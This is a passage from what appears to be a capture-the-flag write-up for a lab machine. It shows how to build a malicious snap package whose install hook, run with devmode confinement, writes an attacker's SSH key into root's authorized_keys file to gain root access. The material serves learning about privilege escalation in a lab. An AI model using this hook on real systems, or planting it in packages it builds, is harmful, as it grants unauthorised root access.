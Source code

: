 ```

df@buntu:~$ cd /tmp/
df@buntu:/tmp$ mkdir dirty_snap
df@buntu:/tmp$ cd dirty_snap/
df@buntu:/tmp/dirty_snap$ snapcraft init
Created snap/snapcraft.yaml.
Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.

```

I’ll prep the install hook:

```

oxdf@parrot$ mkdir snap/hooks
oxdf@parrot$ touch snap/hooks/install
oxdf@parrot$ chmod a+x snap/hooks/install

```

The next step in the example they save to `install` a Bash script that creates a user and adds it to the `sudoers` group. I’ll have mine just write a public SSH key into the root `authorized_keys` file:

```

df@buntu:/tmp/dirty_snap$ cat > snap/hooks/install << "EOF"
#!/bin/bash

mkdir -p /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
EOF

```

The next file, `snapcraft.yaml`, is just boilerplate. I’ll just use the example:

```

df@buntu:/tmp/dirty_snap$ cat > snap/snapcraft.yaml << "EOF"
name: armageddon
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    pwn armageddon                              
       
grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
EOF

```
